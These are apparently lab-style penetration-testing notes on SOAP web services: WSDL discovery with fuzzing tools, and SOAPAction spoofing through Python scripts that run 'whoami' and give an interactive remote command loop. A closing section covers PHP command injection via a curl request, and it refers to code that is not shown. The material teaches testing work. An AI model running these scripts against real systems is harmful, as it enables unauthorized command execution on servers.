 # Web Services Description Language (WSDL)
Suppose we are assessing a SOAP service residing in `http://<TARGET IP>:3002`. We have not been informed of a WSDL file.
```
dirb http://<TARGET IP>:3002
```
Let us perform parameter fuzzing using ffuf and the burp-parameter-names.txt list, as follows. -fs 0 filters out empty responses (size = 0) and -mc 200 matches HTTP 200 responses.
```
ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u 'http://<TARGET IP>:3002/wsdl?FUZZ' -fs 0 -mc 200
```
Note: WSDL files can be found in many forms, such as /example.wsdl, ?wsdl, /example.disco, ?disco etc. DISCO is a Microsoft technology for publishing and discovering Web Services.
# SOAPAction Spoofing
1. Suppose we are assessing a SOAP web service, whose WSDL file resides in `http://<TARGET IP>:3002/wsdl?wsdl`.
The first thing to pay attention to is the following.
```
<wsdl:operation name="ExecuteCommand">
```
```
<soap:operation soapAction="ExecuteCommand" style="document"/>
```
We can see a SOAPAction operation called ExecuteCommand.

Let us take a look at the parameters.
```
<s:element name="ExecuteCommandRequest">
<s:complexType>
<s:sequence>
<s:element minOccurs="1" maxOccurs="1" name="cmd" type="s:string"/>
</s:sequence>
</s:complexType>
</s:element>
```
2. We notice that there is a cmd parameter. Let us build a Python script to issue requests (save it as client.py). Note that the below script will try to have the SOAP service execute a whoami command.
```
import requests

payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><ExecuteCommandRequest xmlns="http://tempuri.org/"><cmd>whoami</cmd></ExecuteCommandRequest></soap:Body></soap:Envelope>'

print(requests.post("http://<TARGET IP>:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```

The Python script can be executed, as follows.
```
python3 client.py
```
We get an error mentioning This function is only allowed in internal networks. We have no access to the internal networks. Does this mean we are stuck? Not yet! Let us try a SOAPAction spoofing attack, as follows.
3. Let us build a new Python script for our SOAPAction spoofing attack (save it as client_soapaction_spoofing.py).
```
import requests

payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><cmd>whoami</cmd></LoginRequest></soap:Body></soap:Envelope>'

print(requests.post("http://<TARGET IP>:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```

If the web service determines the operation to be executed based solely on the SOAPAction header, we may bypass the restrictions and have the SOAP service execute a whoami command.
4. Let us execute the new script.
```
python3 client_soapaction_spoofing.py

b'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginResponse xmlns="http://tempuri.org/"><success>true</success><result>root\n</result></LoginResponse></soap:Body></soap:Envelope>'
```
Our `whoami` command was executed successfully, bypassing the restrictions through SOAPAction spoofing!
If you want to be able to specify multiple commands and see the result each time, use the following Python script (save it as automate.py).
```
import requests

while True:
    cmd = input("$ ")
    payload = f'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><cmd>{cmd}</cmd></LoginRequest></soap:Body></soap:Envelope>'
    print(requests.post("http://<TARGET IP>:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```

You can execute it as follows.
```
python3 automate.py
```
# Command Injection
Command injections are among the most critical vulnerabilities in web services. They allow system command execution directly on the back-end server. If a web service uses user-controlled input to execute a system command on the back-end server, an attacker may be able to inject a malicious payload to subvert the intended command and execute his own.
A variable called cmd is then created, which forms the ping command to be executed. Two values are "parsed", packets and host_url. escapeshellarg() is used to escape the host_url's value. According to PHP's function reference, escapeshellarg() adds single quotes around a string and quotes/escapes any existing single quotes allowing you to pass a string directly to a shell function and having it be treated as a single safe argument. This function should be used to escape individual arguments to shell functions coming from user input. The shell functions include `exec(), system() shell_exec()` and the backtick operator. 
```
ping google.com id
```
If the request method is GET, an existing function can be called with the help of call_user_func_array(). The call_user_func_array() function is a special way to call an existing PHP function. It takes a function to call as its first parameter, then takes an array of parameters as its second parameter. This means that instead of `http://<TARGET IP>:3003/ping-server.php/ping/www.example.com/3` an attacker could issue a request as follows. `http://<TARGET IP>:3003/ping-server.php/system/ls`. This constitutes a command injection vulnerability!
```
curl http://<TARGET  IP>:3003/ping-server.php/system/ls
```
